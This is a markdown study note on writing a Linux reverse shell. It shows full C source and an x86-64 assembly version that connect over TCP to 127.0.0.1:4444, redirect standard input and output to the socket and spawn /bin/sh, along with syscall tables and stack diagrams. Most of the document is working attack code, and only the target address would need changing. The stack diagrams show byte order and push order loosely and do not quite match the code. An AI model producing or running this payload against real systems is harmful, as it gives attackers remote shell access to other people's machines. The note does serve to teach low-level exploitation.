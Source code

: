 ```yaml
---

# 🐚 Reverse Shell: C to Assembly Notes

## 📌 Objective

Create a reverse shell that:

1. Connects to a remote attacker via TCP.
2. Redirects standard input/output/error to the socket.
3. Spawns a shell (`/bin/sh`).

---
```


## 🧠 Original C Code

```c
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main() {
    int socketfd = socket(AF_INET, SOCK_STREAM, 0);

    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);
    addr.sin_addr.s_addr = inet_addr("127.0.0.1");

    connect(socketfd, (struct sockaddr *)&addr, sizeof(addr));

    dup2(socketfd, 0);
    dup2(socketfd, 1);
    dup2(socketfd, 2);

    execve("/bin/sh", NULL, NULL);
}
```

---

## 🧾 Corrected Assembly (x86-64, Linux)

```nasm
section .text
    global _start
_start:

    ; socket(AF_INET, SOCK_STREAM, 0)
    xor     rax, rax
    mov     al, 41            ; syscall: socket
    xor     rdi, rdi
    mov     dil, 2            ; AF_INET
    xor     rsi, rsi
    mov     sil, 1            ; SOCK_STREAM
    xor     rdx, rdx          ; protocol 0
    syscall                   ; return: sockfd → rax

    ; connect(sockfd, struct sockaddr*, addrlen)
    mov     rdi, rax          ; sockfd → arg1

    xor     rbx, rbx
    mov     ebx, 0x0100007F   ; 127.0.0.1 (little endian)
    push    rbx
    push    word 0x5C11       ; port 4444 (0x115C) htons
    push    word 2            ; AF_INET (sa_family)
    xor     rsi, rsi
    mov     rsi, rsp          ; pointer to sockaddr_in → arg2
    xor     rdx, rdx
    mov     dl, 16            ; size of sockaddr_in → arg3
    xor     rax, rax
    mov     al, 42            ; syscall: connect
    syscall

    ; dup2(sockfd, 0), dup2(sockfd, 1), dup2(sockfd, 2)
    xor     rsi, rsi
.dup_loop:
    xor     rax, rax
    mov     al, 33            ; syscall: dup2
    syscall
    inc     rsi
    cmp     rsi, 3
    jne     .dup_loop

    ; execve("/bin/sh", NULL, NULL)
    xor     rax, rax
    push    rax               ; null terminator
    mov     rbx, 0x68732f6e69622f2f ; "//bin/sh"
    push    rbx
    mov     al, 59            ; syscall: execve
    mov     rdi, rsp          ; filename
    xor     rsi, rsi          ; argv
    xor     rdx, rdx          ; envp
    syscall
```

---

## 🧮 Syscall Reference Table

| Function    | Syscall # | rdi (arg1)          | rsi (arg2)            | rdx (arg3)      |
| ----------- | --------- | ------------------- | --------------------- | --------------- |
| `socket()`  | 41        | domain (AF\_INET=2) | type (SOCK\_STREAM=1) | protocol (0)    |
| `connect()` | 42        | socketfd            | struct sockaddr ptr   | length (16)     |
| `dup2()`    | 33        | oldfd               | newfd                 | -               |
| `execve()`  | 59        | filename ptr        | argv ptr (NULL)       | envp ptr (NULL) |

---

## 📊 Stack Visualization

### `sockaddr_in` (pushed on stack, 16 bytes)

```
Top of stack →
+-------------------+
| sa_family = 0x02  |  (word)
+-------------------+
| sin_port = 0x115C |  (word) → 4444 (network byte order)
+-------------------+
| sin_addr = 0x7F000001 | → 127.0.0.1 (little endian)
+-------------------+
```

### `execve("/bin/sh", NULL, NULL)`

```
Top of stack →
+---------------------+
| 0x00 (null)         |  ← null terminator
+---------------------+
| "//bin/sh"          |  ← pushed as qword
+---------------------+
```

---

## 🧠 Notes on Register Usage

| Register | Purpose                          |
| -------- | -------------------------------- |
| **rax**  | Syscall number                   |
| **rdi**  | 1st syscall argument             |
| **rsi**  | 2nd syscall argument             |
| **rdx**  | 3rd syscall argument             |
| **rsp**  | Stack pointer                    |
| **rbx**  | Temporary register for data prep |

---



